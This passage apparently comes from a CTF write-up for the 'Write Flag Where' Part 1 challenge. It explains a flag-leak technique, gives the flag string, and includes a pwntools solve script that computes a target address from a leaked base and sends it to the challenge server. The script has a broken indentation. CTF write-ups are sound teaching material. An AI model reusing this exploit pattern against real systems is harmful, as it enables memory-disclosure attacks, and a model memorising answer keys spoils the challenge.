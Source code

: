 ```c
  return 1;
}
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="wfw_chal_c"
    button-text="Show chal.c" toggle-text=wfw_chal_c %}

### Write Flag Where - Part 1

For part 1, there is a dprintf function call after the entrence to the while loop, so writing the flag to the string that are printed each loop can leak the flag. 

`CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}`

{% capture wfw_solve_py %}

```python
from pwn import *

elf = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]

def connect():
        nc_str = "nc wfw1.2023.ctfcompetition.com 1337"
        _, host, port = nc_str.split(" ")
        p = remote(host, int(port))

    return p

def main():
    p = connect()
    p.recvuntil(b"shot.\n")
    s = p.recvline()
    elf.address = int(s.split(b'-')[0], 16)
    print(hex(elf.address))

    p.sendline(f"{hex(elf.address + 0x21e0)} 60")

    p.interactive()


if __name__ == "__main__":
    main()
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="wfw_solve_py"
    button-text="Show solve.py" toggle-text=wfw_solve_py %}
